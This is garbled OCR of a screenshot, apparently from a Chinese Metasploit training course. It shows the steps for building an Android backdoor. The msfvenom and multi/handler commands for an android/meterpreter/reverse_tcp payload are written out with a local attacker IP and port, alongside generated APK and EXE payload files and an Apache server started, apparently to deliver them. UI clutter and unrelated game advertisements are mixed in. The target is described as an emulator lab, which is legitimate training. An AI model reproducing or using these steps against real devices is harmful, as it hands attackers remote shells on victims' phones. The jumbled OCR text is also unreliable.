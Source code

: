 

·VMware Workstation
夜神模拟器6.6.0.9■页
■売模板
37.Metasploit: ongkeketang
安全 开发工具 特色功能 Q查找
已同步·＆作分享
··. 宋体
·A··田
AaBbCcDd
AaBb AaBbC AaBbC 田·
正文 标■1
标■3
文档助手 文字工具
壹找醫换 回收站
世
Metasploit：生成Android后门 文件系统
实验靶机：安卓模拟器主文件夹
生成安卓后门
sudo msfvenom -p android/meterpreter/reverse_tcp 1host=192.168.3.190 Kali Linux
amd641
1port=5555 R>/home/kali/payload.apk
I 利用安卓后门
开启 metasploit
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp set lhost 192.168.3.190
set lport 5555
页码：1 页面：1／1 节：1／1 设置值：7.9厘米 行：8孙7 字数：93 拼写检查 文档校对
200% 云上城之歌
毒液单职业
三国志幻想大陆三国志战略版

hongkeketang
hongke@kali:
hongke@kali:
hongke-文件管理器 文件（F）
编辑（E）
(Ethernet) 文件系统
0 Kali Linux am..
公共
视频
图片
0
collisions 0 桌面
回收站
文档 文档
音乐 女田著 视频
android_payload.a
windwos_payload. 下载
pk
exe
hongke@kall:- 网络
文件（F）动作（A）编辑（E） 查看（V） 帮助（H）浏览网络
hongke@kali:~$ sudo service apache2 start 10个项目：82.0KiB（83，990字节），可用空（
［sudo］ hongke 的密码：
collisions 0 0
hongke@kali:~$ ls hongke@kali:~$ msfvenom -p
公共 模板 视频
图片
文档
卞载
音乐
桌面
android_payload.apk windwos_payloa oid_payload.apk